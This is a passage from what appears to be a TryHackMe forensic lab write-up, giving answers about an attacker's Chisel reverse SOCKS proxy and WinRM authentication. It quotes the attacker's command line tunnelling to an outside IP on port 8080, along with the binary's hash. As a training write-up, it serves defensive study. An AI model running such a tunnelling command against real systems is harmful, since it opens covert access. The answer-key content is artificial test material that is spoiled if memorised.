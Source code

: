 **ANS: C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks**

### 7.4 What is the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection?

Just had to scroll to the left a little to find the hash

**ANS: 8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451**

### 7.5 What is the name of the tool used by the attacker based on the SHA256 hash? Provide the answer in lowercase.

Using VirusTotal, I searched for the SHA256 hash and identified the tool used by the attacker as `Chisel`.

![tool used by attacker](assets/Task5_screenshot4.png)

**ANS: chisel**

### 7.6 The attacker then used the harvested credentials from the machine. Based on the succeeding process after the execution of the socks proxy, what service did the attacker use to authenticate?

The succeeding process showing in my Time explorer was not what THM was looking for so I had to make use of help online. I saw the required process and the checked what the process means. The PowerShell host wsmprovhost.exe is a proxy process executed remotely through PowerShell when using Windows Remote Management (WinRM)

![process](assets/Task7_screenshot5.png)
